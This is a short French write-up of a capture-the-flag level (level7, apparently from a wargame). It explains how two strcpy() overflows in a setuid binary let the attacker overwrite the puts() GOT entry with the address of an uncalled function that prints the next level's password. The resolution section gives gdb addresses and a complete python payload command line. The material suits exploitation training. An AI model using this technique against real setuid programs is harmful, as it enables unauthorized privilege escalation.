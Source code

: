 ## Comportement
- J'ai des droits `level7` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7*`
- En exécutant le binaire (`./level7`), on observe:
  ```shell
    ./level7 
    Segmentation fault (core dumped)
    ./level7 111
    Segmentation fault (core dumped)
    ./level7 111 222
    ~~
    ./level7 111 222 333
    ~~
  ```


## Analyse
- le password est inscrit dans une variable globale qui est afficher avec un `printf()` qui est situe dans une foncton qui n'est jamais appelee. 
- Utilisation de 2 `strcpy()` qui pourrait nous permettre d'overflow l'appel a la fonction `puts()` juste en dessous avec un call a la fonction `m()` qui nous interesse. 


## Résolution
- On trouve l'adresse de `puts()` => `0x08049928`
  ```shell
    (gdb) disas puts
    ...
    0x08048400 <+0>:	jmp    *0x8049928
  ```
- On trouve l'adresse de `m()` => `0x080484f4`
  ```shell
    (gdb) info function m
    ...
    0x080484f4  m
    ...
    (gdb)
  ```
- On trouve l'offset avec le pattern generator a la difference cette fois ci que ce n'est pas l'`eip` qui est overwritten mais `eax` et `edx`. L'offset est de 20.
- On craft notre payload:
  - argv[1] = "a" * 20 + "puts addr"
  - argv[2] -> puts GOT addr = "m addr"
  ```shell
    ./level7 $(python -c 'print "B" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
  ```
- On obtient directement le password. Il nous reste plus qu'a passer au level8 (`su level8`) en renseignant ce password.
